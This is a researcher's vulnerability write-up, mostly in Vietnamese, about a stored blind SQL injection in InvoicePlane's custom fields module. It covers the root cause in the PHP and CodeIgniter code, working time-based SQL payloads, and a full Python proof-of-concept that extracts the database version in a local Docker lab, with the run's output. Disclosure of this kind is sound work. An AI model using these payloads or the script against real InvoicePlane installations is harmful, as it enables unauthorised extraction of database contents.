





## Vulnerability Summary
| Field | Value |
|---|---|
| **OpenSource** | InvoicePlane |
| **Github** | [Invoiplane Opensource](https://github.com/InvoicePlane/InvoicePlane) |
| **CVSS Score** | 5.5 (Medium) |
| **Attack Vector** | Authenticated Administrator |
| **CVSS Vector** | `CVSS:3.1/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:N/A:L` |
| **CWE** | CWE-89, CWE-20 |
| **Vulnerability Type** | Authenticated Stored Blind SQL Injection via Custom Field Table Identifier |
| **Affected Versions** | `v1.7.2-beta-1` |
| **Researcher** | [capt-bl4ck0ut](https://github.com/capt-bl4ck0ut) |


## Affected endpoints
Vấn đề là tấn công SQLi lưu trữ, vì vậy có hai nhóm điểm cuối liên quan:
```http
POST /custom_fields/form
POST /custom_fields/form/<custom_field_id>
```
Đã xác nhận điểm cuối thực thi SQLi:
```http
GET /custom_fields/form/<custom_field_id>
```
## Description Bug
Bảng `custom_field_table` chỉ được xác thực là `bắt buộc`, mặc dù mã sau đó coi nó như một mã định danh bảng cơ sở dữ liệu. Giao diện người dùng hiển thị danh sách các mục được cho phép, nhưng quản trị viên đã được xác thực có thể sửa đổi phần thân POST và lưu trữ một biểu thức bảng tùy ý. Khi bản ghi được chỉnh sửa hoặc xóa, InvoicePlane chuyển giá trị đã lưu trữ đó cho phương thức `from() / delete()` của `Query Builder` dưới dạng mã định danh. `CodeIgniter` bỏ qua việc thoát mã định danh khi chuỗi chứa dấu ngoặc đơn hoặc dấu ngoặc kép, do đó đoạn mã SQL sẽ đến được truy vấn SQL cuối cùng. Một payload bảng dẫn xuất nhỏ gọn có thể biến điều này thành một cuộc tấn công SQLi mù dựa trên thời gian và trích xuất các giá trị cơ sở dữ liệu từng ký tự một.
## Conditions for exploitation
Đầu tiên đi vào gốc ban đầu để biết điều kiện khai thác là gì?<br>
File: `/application/core/User_Controller.php` file này xác định điều kiện để có thể truy cập
```php
class User_Controller extends Base_Controller
{
    public function __construct($required_key, $required_val)
    {
        parent::__construct();

        if ($this->session->userdata($required_key) != $required_val) {
            session_destroy();
            redirect('sessions/login');
        }
    }
}
```
Đoạn code trên được hiểu controller nào kế thừa `User_Controller` sẽ được kiểm tra session. Nếu session không có quyền yêu cầu thì nó sẽ chuyển hướng về login. Và trong case này, bug chúng ta cần quyền admin, vì `Admin_Controller` gọi `User_Controller` với `user_type=1`<br>
File: `/application/core/Admin_Controller.php`
```php
class Admin_Controller extends User_Controller
{
    use XSS_Protection_Trait;

    public function __construct()
    {
        parent::__construct('user_type', 1);
        $this->setCacheHeaders();
        $this->check_setup_security();
        [...]
    }
```
Vì `Custom_Fields` kế thừa `Admin_Controller.php` nên attacker phải cần quyền admin mới khai thác.
## Technical Analysis & Root Cause
File: `application/modules/custom_fields/controllers/Custom_fields.php` <br>
Đây là controller chính của chức năng `Custom Fields`
```php
class Custom_Fields extends Admin_Controller
{
    public function __construct()
    {
        parent::__construct();
        $this->load->model('mdl_custom_fields');
    }

    public function form($id = null)
    {
        if ($this->mdl_custom_fields->run_validation()) {
            $this->mdl_custom_fields->save($id);
            redirect('custom_fields');
        }

        if ($id && ! $this->input->post('btn_submit') && ! $this->mdl_custom_fields->prep_form($id)) {
            show_404();
        }

        $this->layout->set(
            [
                'custom_field_tables' => $this->mdl_custom_fields->custom_tables(),
                'custom_field_usage'  => $this->mdl_custom_fields->used($id),
            ]
        );
    }

    public function delete($id)
    {
        $this->mdl_custom_fields->delete($id);
        ...
    }
}
```
Ở class này nó có 3 điểm quan trọng khi thực hiện yêu cầu `POST /custom_fields/form` nó sẽ lấy `mdl_custom_fields` và thực hiện gọi `run_validation()` sau đó thực hiện `save()` lưu custom_fields vào DB sau đó thực hiện yêu cầu `GET /custom_fields/form/<id>` nó thực hiện gọi `prep_form($id) -> used($id)` và nếu lúc này có thể nhét truy vấn SQL nó sẽ thực hiện trigger payload đã lưu ở DB
File: `application/modules/custom_fields/views/form.php` <br>
Đây là phần UI
```php
<select name="custom_field_table" id="custom_field_table">
<?php foreach ($custom_field_tables as $table => $label) { ?>
    <option value="<?php echo $table; ?>">
        <?php _trans($label); ?>
    </option>
<?php } ?>
</select>
```
Lúc này chúng ta có thể nhìn thấy UI có vẻ an toàn nhưng vì user chỉ chọn được table từ danh sách hợp lệ danh sách đó đến từ lớp models:
```txt
ip_client_custom
ip_invoice_custom
ip_payment_custom
ip_quote_custom
ip_user_custom
```
Nhưng đây là `client-side allowslist`. Admin có thể sửa đổi requests qua burp sửa POST Body
```txt
custom_field_table=ip_client_custom
```
Thành câu truy vấn SQL demo
```txt
custom_field_table=(SELECT(...))ip_#
```
Root Cause ở File: `application/modules/custom_fields/models/Mdl_custom_fields.php` <br>
Function `validation_rules()`
```php
public function validation_rules()
{
    return [
        'custom_field_table' => [
            'field' => 'custom_field_table',
            'label' => trans('table'),
            'rules' => 'required',
        ],
        [...]
    ];
}
```
Và `custom_field_table` chỉ kiểm tra `rules = required` không có allowlist server-side hay regex table name vì vậy khi chèn payload vẫn pass vì giá trị không để rỗng
Function `custom_tables()`
```php
public function custom_tables()
{
    return [
        'ip_client_custom'  => 'client',
        'ip_invoice_custom' => 'invoice',
        'ip_payment_custom' => 'payment',
        'ip_quote_custom'   => 'quote',
        'ip_user_custom'    => 'user',
    ];
}
```
Đây là nó đã allowlist về đúng mặt logic rồi nhưng vấn đề nó chỉ được dùng để render UI không được validate ở lúc save sau khi nhập thông tin thì db_array() sẽ đảm nhiệm như sau
Function `db_array()`
```php
public function db_array()
{
    $db_array = parent::db_array();

    if (in_array($db_array['custom_field_type'], $this->custom_types())) {
        $type = $db_array['custom_field_type'];
    } else {
        $type = $this->custom_types()[0];
    }

    $db_array['custom_field_type'] = $type;

    return $db_array;
}
```
Hàm này chỉ normalize `custom_field_type`, không validate lại:
```php
$db_array['custom_field_table']
```
Nên payload lúc này nó vẫn đi tiếp vào Database và bước ăn là ở function save() sẽ thực hiện lưu payload vào DB
Function `save()`
```php
public function save($id = null, $db_array = null)
{
    $db_array = ($db_array) ? $db_array : $this->db_array();

    $id = parent::save($id, $db_array);

    return $id;
}
```
`$this->table` của model là:
```php
public $table = 'ip_custom_fields';
```
Vậy payload được lưu vào `ip_custom_fields.custom_field_table` từ đây bug trở thành `Stored SQL Injection`
Function `used($id) -> sink chính để trigger`
```php
public function used($id = null, $get = true)
{
    $cf   = $this->get_by_id($id);
    $base = strtr($cf->custom_field_table, ['ip_' => '']) . '_field';

    $this->db->from($cf->custom_field_table)
        ->where($base . 'id', $id)
        ->where($base . 'value IS NOT NULL', null, false)
        ->where($base . 'value <> ""');

    return $get ? $this->db->get()->result() : $this->db;
}
```
Dữ liệu `$cf->custom_field_table` được lấy ra từ DB nhưng ban đầu là POST body của admin nó được đưa thằng vào `$this->db->from($cf->custom_field_table)` với custom field hợp lệ, query sẽ dạng như này
```sql
FROM ip_client_custom
WHERE client_custom_fieldid = ...
```
Nhưng với payload, FROM trở thành `SQL fragment` do attacker kiểm soát.<br>
File: `vendor/pocketarc/codeigniter/system/database/DB_query_builder.php` <br>
File này giải thích `from()` và `delete()` trở thành sink. Với function `from()`
```php
public function from($from)
{
    ...
    $this->qb_from[] = $val = $this->protect_identifiers($val, TRUE, NULL, FALSE);
    ...
}
```
`from()` có gọi `protect_identifiers()` và bình thường nếu truyền table_name sạch `ip_client_custom` thì CodeIgniter escape thành identifier an toàn. Nhưng nếu truyền SQL expression có dấu ngoặc, nó đi vào file `DB_driver.php`. Và function `delete()` cũng gọi đến `protect_identifiers()` cũng như `from()`. Nghĩa là cả edit trigger và delete trigger đều phụ thuộc vào behavior của `protect_identifiers()`. Và đến với trung tâm mà khiến payload không bị escape. <br>
File: `vendor/pocketarc/codeigniter/system/database/DB_driver.php` <br>
```php
public function protect_identifiers($item, ...)
{
    [...]
    if (strcspn($item, "()'") !== strlen($item))
    {
        return $item;
    }
    [...]
}
```
```txt
Nếu identifier chứa:
- (
- )
- '
thì CodeIgniter trả nguyên chuỗi, không escape.
```
Và `Database Table: ip_custom_fields` dòng dữ liệu độc hại đưa vào sẽ có dạng như sau:
```txt
custom_field_id      = 40
custom_field_label   = sqlpoc
custom_field_table   = (SELECT(ORD(MID(@@version,1))=49&&SLEEP(1)))ip_#
custom_field_type    = TEXT
...
```
Khi mở `/custom_fields/form/<id>` app sẽ thực hiện lấy row bằng `$cf = $this->get_by_id($id);` rồi đưa `$cf->custom_field_table` vào SQL Builder khiến payload thực thi
Payload sử dụng như sau
```sql
(SELECT(ORD(MID(@@version,<position>))=<ascii_code>&&SLEEP(4)))ip_#
```
- Đối với các vị trí thực tế, tải trọng tối đa là 50 ký tự, do đó nó phù hợp với `ip_custom_fields.custom_field_table`.
- Bảng được tạo ra hợp lệ theo định dạng `FROM (SELECT(...))ip_`.
- `strtr($cf->custom_field_table, ['ip_' => ''])` loại bỏ bí danh `ip_` khi xây dựng biểu thức WHERE sau đó.
- `#` Loại bỏ phần hậu tố `_fieldid / _fieldvalue` được tạo tự động trên mỗi dòng điều kiện.
- Việc so sánh ký tự chính xác gây ra độ trễ HTTP khoảng năm giây vì `SLEEP(4)` được đánh giá trong bảng dẫn xuất và một lần nữa trong đường dẫn điều kiện được tạo ra.
## Core mining chain workflow
`Custom_fields::form($id) ->  $this->mdl_custom_fields->used($id) ->  $this->db->from($cf->custom_field_table) ->  SQL executes with stored payload`
## POC
Ở đây tôi đã dựng lại bản local với Docker để thực hiện POC và để kiểm chứng nhanh thì tôi sẽ excute DB version trên Docker xem chính xác để liệu khi thực thi SQL có ra được như thế không.

1. Đăng nhập vào tài khoản admin đã được set mặc định `admin@localhost:freshrss-change-me` thực hiện truy cập vào endpoint `http://localhost:4095/custom_fields/form` và nhập thông tin form bất kỳ

2. Sau đó thưc hiện gửi một yêu cầu `POST` tới endpoint `custom_fields/form` và để kiểm tra ký tự đầu tiên chính xác của phiên bản mà cơ sở dữ liệu đã biết, tôi đã sử dụng một payload nếu ký tự đó chính xác, nó sẽ làm chậm hệ thống.
```txt
_ip_csrf=fed28e3258b19d758d722e1e1d503c0b&btn_submit=1&custom_field_label=test&custom_field_table=%28SELECT%28ORD%28MID%28%40%40version%2C1%29%29%3D49%26%26SLEEP%283%29%29%29ip_%23&custom_field_location=0&custom_field_type=TEXT&custom_field_order=1
```
Payload giải mã:
```txt
(SELECT(ORD(MID(@@version,1))=49&&SLEEP(4)))ip_#
```

3. Sau đó, sử dụng phương thức `GET custom_fields/form/<id>` để kích hoạt truy vấn SQL, và truy vấn SQL kết quả sẽ được kích hoạt thành công.

Điều này chứng minh có thể exploit SQL thành công <br>
4. Để tự động hóa quy trình bằng `Blind SQL`, tôi sẽ viết một đoạn mã để trích xuất phiên bản cơ sở dữ liệu.
<details>
  <summary style="color: red;">Click View Script Solve</summary> <br>

~~~python
from __future__ import annotations
import argparse
import re
import string
import subprocess
import sys
import time
from dataclasses import dataclass, field
from typing import Optional
import requests


@dataclass
class ExploitConfig:
    base_url: str
    email: str
    password: str
    app_container: str
    db_container: str
    db_user: str
    db_password: str
    db_name: str
    suffix: str = field(default_factory=lambda: str(int(time.time()))[-6:])
    charset: str = (
        string.digits
        + ".-+_~:"
        + string.ascii_uppercase
        + string.ascii_lowercase
    )

    def __post_init__(self) -> None:
        self.base_url = self.base_url.rstrip("/")


class CommandRunner:
    @staticmethod
    def run(cmd: list[str], timeout: int = 30) -> subprocess.CompletedProcess[str]:
        return subprocess.run(
            cmd,
            text=True,
            stdout=subprocess.PIPE,
            stderr=subprocess.PIPE,
            timeout=timeout,
            check=False,
        )


class DockerMariaDB:
    def __init__(self, config: ExploitConfig):
        self.config = config

    @staticmethod
    def sql_quote(value: str) -> str:
        return "'" + value.replace("\\", "\\\\").replace("'", "''") + "'"

    def query(self, sql: str) -> str:
        cmd = [
            "docker",
            "exec",
            self.config.db_container,
            "mariadb",
            "-N",
            f"-u{self.config.db_user}",
            f"-p{self.config.db_password}",
            self.config.db_name,
            "-e",
            sql,
        ]

        proc = CommandRunner.run(cmd)

        if proc.returncode != 0:
            error = proc.stderr.strip() or proc.stdout.strip()
            raise RuntimeError(f"MariaDB query failed: {error}")

        return proc.stdout

    def direct_version(self) -> str:
        return self.query("SELECT @@version;").strip()

    def get_custom_field_id(self, label: str) -> str:
        sql = (
            "SELECT custom_field_id FROM ip_custom_fields "
            f"WHERE custom_field_label={self.sql_quote(label)} "
            "ORDER BY custom_field_id DESC LIMIT 1;"
        )
        return self.query(sql).strip()

    def cleanup_custom_fields(self, suffix: str, label: Optional[str] = None) -> None:
        conditions: list[str] = [
            f"custom_field_label LIKE {self.sql_quote('sqlpoc_' + suffix + '%')}"
        ]

        if label:
            conditions.append(f"custom_field_label={self.sql_quote(label)}")

        sql = "DELETE FROM ip_custom_fields WHERE " + " OR ".join(conditions) + ";"
        self.query(sql)

    def count_custom_field(self, label: str) -> str:
        sql = (
            "SELECT COUNT(*) FROM ip_custom_fields "
            f"WHERE custom_field_label={self.sql_quote(label)};"
        )
        return self.query(sql).strip()


class DockerApp:
    def __init__(self, config: ExploitConfig):
        self.config = config

    def latest_log_tail(self) -> str:
        cmd = [
            "docker",
            "exec",
            self.config.app_container,
            "sh",
            "-lc",
            (
                "latest=$(ls -t /var/www/html/application/logs/log-*.php "
                "2>/dev/null | head -1); "
                'test -n "$latest" && tail -260 "$latest" || true'
            ),
        ]

        proc = CommandRunner.run(cmd)
        return proc.stdout


class InvoicePlaneClient:
    def __init__(self, config: ExploitConfig):
        self.config = config
        self.session = requests.Session()

    @staticmethod
    def extract_csrf(html: str) -> str:
        match = re.search(r'name="_ip_csrf" value="([^"]+)"', html)

        if not match:
            raise RuntimeError("CSRF token not found")

        return match.group(1)

    def get_csrf_from(self, path: str) -> str:
        response = self.session.get(
            f"{self.config.base_url}{path}",
            timeout=15,
        )
        response.raise_for_status()
        return self.extract_csrf(response.text)

    def login(self) -> requests.Response:
        csrf = self.get_csrf_from("/sessions/login")

        response = self.session.post(
            f"{self.config.base_url}/sessions/login",
            data={
                "_ip_csrf": csrf,
                "email": self.config.email,
                "password": self.config.password,
                "btn_login": "1",
            },
            allow_redirects=False,
            timeout=15,
        )

        location = response.headers.get("Location") or ""
        ok = response.status_code in (302, 303) and "dashboard" in location

        if not ok:
            raise RuntimeError(
                f"Login failed: HTTP {response.status_code}, Location={location!r}"
            )

        return response

    def fresh_custom_field_csrf(self) -> str:
        return self.get_csrf_from("/custom_fields/form")

    def save_custom_field(
        self,
        label: str,
        table_payload: str,
        field_id: Optional[str] = None,
    ) -> requests.Response:
        csrf = self.fresh_custom_field_csrf()

        path = "/custom_fields/form"
        if field_id:
            path += f"/{field_id}"

        return self.session.post(
            f"{self.config.base_url}{path}",
            data={
                "_ip_csrf": csrf,
                "btn_submit": "1",
                "custom_field_label": label,
                "custom_field_table": table_payload,
                "custom_field_type": "TEXT",
                "custom_field_order": "1",
                "custom_field_location": "1",
            },
            allow_redirects=False,
            timeout=20,
        )

    def trigger_custom_field(self, field_id: str, timeout: int = 30) -> tuple[requests.Response, float]:
        start = time.time()

        response = self.session.get(
            f"{self.config.base_url}/custom_fields/form/{field_id}",
            allow_redirects=False,
            timeout=timeout,
        )

        elapsed = time.time() - start
        return response, elapsed


class ResultReporter:
    def __init__(self):
        self.results: list[tuple[str, bool, str]] = []

    def record(self, name: str, ok: bool, detail: str) -> None:
        self.results.append((name, ok, detail))
        status = "PASS" if ok else "FAIL"
        print(f"[{status}] {name}: {detail}")

    def summary(self) -> int:
        passed = sum(1 for _, ok, _ in self.results if ok)
        total = len(self.results)

        print(f"\nSummary: {passed}/{total} checks passed")
        return 0 if passed == total else 1


class InvoicePlaneSqlExploit:
    def __init__(self, config: ExploitConfig):
        self.config = config
        self.db = DockerMariaDB(config)
        self.app = DockerApp(config)
        self.client = InvoicePlaneClient(config)
        self.reporter = ResultReporter()

    def login(self) -> None:
        response = self.client.login()
        self.reporter.record(
            "login",
            True,
            f"HTTP {response.status_code} -> {response.headers.get('Location')}",
        )

    def create_malicious_custom_field(self, label: str, payload: str) -> str:
        self.db.cleanup_custom_fields(self.config.suffix, label)

        response = self.client.save_custom_field(label, payload)
        field_id = self.db.get_custom_field_id(label)

        ok = response.status_code in (302, 303) and field_id.isdigit()

        self.reporter.record(
            "create malicious custom field",
            ok,
            f"HTTP {response.status_code}, id={field_id}",
        )

        if not ok:
            raise RuntimeError("Failed to create malicious custom field")

        return field_id

    def test_sql_fragment_reaches_query(self) -> None:
        marker = f"sqlmarker_{self.config.suffix}_x"
        label = f"sqlpoc_{self.config.suffix}"
        payload = f"ip_custom_fields JOIN (SELECT 1 AS {marker}) s#"

        field_id = self.create_malicious_custom_field(label, payload)

        response, _ = self.client.trigger_custom_field(field_id, timeout=15)
        log = self.app.latest_log_tail()

        marker_in_log = (
            "sqlmarker_" in log
            and "FROM ip_custom_fields JOIN (SELECT 1 AS" in log
            and f"fieldid '{field_id}'" in log
        )

        self.reporter.record(
            "stored SQL fragment reaches query",
            response.status_code >= 500 and marker_in_log,
            f"HTTP {response.status_code}, marker_in_log={marker_in_log}",
        )

        self.db.cleanup_custom_fields(self.config.suffix, label)
        remaining = self.db.count_custom_field(label)

        self.reporter.record(
            "cleanup",
            remaining == "0",
            f"remaining={remaining}",
        )

    def create_blind_probe_field(self, label: str) -> str:
        self.db.cleanup_custom_fields(self.config.suffix, label)

        response = self.client.save_custom_field(label, "ip_invoice_custom")
        field_id = self.db.get_custom_field_id(label)

        ok = response.status_code in (302, 303) and field_id.isdigit()

        self.reporter.record(
            "create blind SQLi probe field",
            ok,
            f"HTTP {response.status_code}, id={field_id}",
        )

        if not ok:
            raise RuntimeError("Failed to create blind SQLi probe field")

        return field_id

    def build_version_payload(self, position: int, candidate: str) -> str:
        payload = (
            f"(SELECT(ORD(MID(@@version,{position}))="
            f"{ord(candidate)}&&SLEEP(3)))ip_#"
        )

        if len(payload) > 50:
            raise RuntimeError(f"Payload too long ({len(payload)}): {payload}")

        return payload

    def probe_version_character(
        self,
        field_id: str,
        label: str,
        position: int,
        candidate: str,
    ) -> float:
        payload = self.build_version_payload(position, candidate)

        response = self.client.save_custom_field(
            label=label,
            table_payload=payload,
            field_id=field_id,
        )

        if response.status_code not in (302, 303):
            raise RuntimeError(
                f"Custom field update failed: HTTP {response.status_code}"
            )

        trigger, elapsed = self.client.trigger_custom_field(field_id, timeout=30)

        if trigger.status_code != 200:
            raise RuntimeError(f"Timing trigger failed: HTTP {trigger.status_code}")

        return elapsed

    def extract_db_version(self, field_id: str, label: str) -> str:
        extracted = ""
        threshold = 1.0

        for position in range(1, 40):
            found = False

            for candidate in self.config.charset:
                elapsed = self.probe_version_character(
                    field_id=field_id,
                    label=label,
                    position=position,
                    candidate=candidate,
                )

                if elapsed >= threshold:
                    extracted += candidate
                    found = True

                    print(
                        f"    extracted @@version[{position}] = "
                        f"{candidate!r} ({elapsed:.2f}s) -> {extracted}"
                    )

                    break

            if not found:
                break

        return extracted

    def test_blind_db_version_extraction(self) -> None:
        label = f"sqlpoc_{self.config.suffix}_version"

        try:
            field_id = self.create_blind_probe_field(label)
            extracted = self.extract_db_version(field_id, label)
            direct = self.db.direct_version()

            ok = bool(re.match(r"^\d+\.\d+", extracted)) and extracted == direct

            self.reporter.record(
                "blind @@version extraction via custom_field_table",
                ok,
                f"extracted={extracted!r}, direct_db={direct!r}",
            )

        finally:
            self.db.cleanup_custom_fields(self.config.suffix, label)

    def run(self) -> int:
        self.login()
        self.test_sql_fragment_reaches_query()
        self.test_blind_db_version_extraction()
        return self.reporter.summary()


def build_arg_parser() -> argparse.ArgumentParser:
    parser = argparse.ArgumentParser(
        description="InvoicePlane v1.7.2-beta-1 custom_field_table SQLi PoC"
    )
    parser.add_argument("--base-url", default="http://127.0.0.1:4895")
    parser.add_argument("--email", default="admin@localhost")
    parser.add_argument("--password", default="freshrss-change-me")

    parser.add_argument(
        "--app-container",
        default="invoiceplane-172-beta-1-app-1",
    )
    parser.add_argument(
        "--db-container",
        default="invoiceplane-172-beta-1-db-1",
    )
    parser.add_argument("--db-user", default="invoiceplane")
    parser.add_argument("--db-password", default="invoiceplane")
    parser.add_argument("--db-name", default="invoiceplane")
    parser.add_argument("--suffix", default="")

    return parser


def config_from_args(args: argparse.Namespace) -> ExploitConfig:
    return ExploitConfig(
        base_url=args.base_url,
        email=args.email,
        password=args.password,
        app_container=args.app_container,
        db_container=args.db_container,
        db_user=args.db_user,
        db_password=args.db_password,
        db_name=args.db_name,
        suffix=args.suffix or str(int(time.time()))[-6:],
    )


def main() -> int:
    parser = build_arg_parser()
    args = parser.parse_args()
    config = config_from_args(args)

    try:
        exploit = InvoicePlaneSqlExploit(config)
        return exploit.run()
    except KeyboardInterrupt:
        print("\n[ERROR] Interrupted by user", file=sys.stderr)
        return 130
    except Exception as exc:
        print(f"[ERROR] {exc}", file=sys.stderr)
        return 2


if __name__ == "__main__":
    raise SystemExit(main())
~~~
</details>

Kết quả đã trích được version DB và có thể leak được các thông tin khác như `@@datadir hoặc @@hostname`
```txt
PS D:\CVE\InvoicePlane-1.7.2-beta-1> & "D:\Tai Lieu Hoc Tap\IDE PyThon & PHP & Java\python.exe" d:/CVE/InvoicePlane-1.7.2-beta-1/poc_sql.py
[PASS] login: HTTP 303 -> http://localhost:4895/dashboard
[PASS] create malicious custom field: HTTP 303, id=63
[PASS] stored SQL fragment reaches query: HTTP 500, marker_in_log=True
[PASS] cleanup: remaining=0
[PASS] create blind SQLi probe field: HTTP 303, id=64
    extracted @@version[1] = '1' (6.27s) -> 1
    extracted @@version[2] = '1' (6.27s) -> 11
    extracted @@version[3] = '.' (6.27s) -> 11.
    extracted @@version[4] = '8' (5.66s) -> 11.8
    extracted @@version[5] = '.' (6.26s) -> 11.8.
    extracted @@version[6] = '8' (5.71s) -> 11.8.8
    extracted @@version[7] = '-' (6.24s) -> 11.8.8-
    extracted @@version[8] = 'M' (6.29s) -> 11.8.8-M
    extracted @@version[9] = 'a' (5.62s) -> 11.8.8-Ma
    extracted @@version[10] = 'r' (6.34s) -> 11.8.8-Mar
    extracted @@version[11] = 'i' (6.32s) -> 11.8.8-Mari
    extracted @@version[12] = 'a' (6.26s) -> 11.8.8-Maria
    extracted @@version[13] = 'D' (4.76s) -> 11.8.8-MariaD
    extracted @@version[14] = 'B' (6.25s) -> 11.8.8-MariaDB
    extracted @@version[15] = '-' (6.27s) -> 11.8.8-MariaDB-
